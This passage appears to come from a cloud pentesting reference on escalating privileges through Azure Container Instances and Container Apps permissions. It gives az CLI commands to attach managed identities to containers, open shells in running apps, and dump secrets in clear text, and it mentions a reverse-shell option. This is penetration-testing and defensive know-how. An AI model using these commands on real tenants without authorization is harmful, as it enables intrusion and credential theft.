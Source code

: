 ### `Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permission allows to **create or update a container group** with a **user managed identity** attached to it. This is very useful to escalate privileges in the container.

```bash
az container create \
  --resource-group <res-group> \
  --name nginx2 \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --assign-identity "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>" \
  --restart-policy OnFailure \
  --os-type Linux \
  --cpu 1 \
  --memory 1.0
```

Moreover, it's also possible to update an existing container group adding for example the **`--command-line` argument** with a reverse shell.


## ACA

### `Microsoft.App/containerApps/read`, `Microsoft.App/managedEnvironments/read`, `microsoft.app/containerapps/revisions/replicas`, `Microsoft.App/containerApps/revisions/read`, `Microsoft.App/containerApps/getAuthToken/action`

These permissions allow the user to **get a shell** in a runningapplication container. This can be used to **escalate privileges** in the container if it has any managed identity attached. Ofc, it's also possible to access the source code and any other sentitive information storeed inside the container.

```bash
az containerapp exec --name <app-name> --resource-group <res-group> --command "sh"
az containerapp debug --name <app-name> --resource-group <res-group>

```

### `Microsoft.App/containerApps/listSecrets/action`

This permission allows to get the **clear text of the secrets** configured inside a container app. Note that secrets can be configured with the clear text of with a link to a key vault (in such case the app will have assigned a managed identity with access over the secrets).

```bash
az containerapp secret list --name <app-name> --resource-group <res-group>
az containerapp secret show --name <app-name> --resource-group <res-group> --secret-name <scret-name>
```
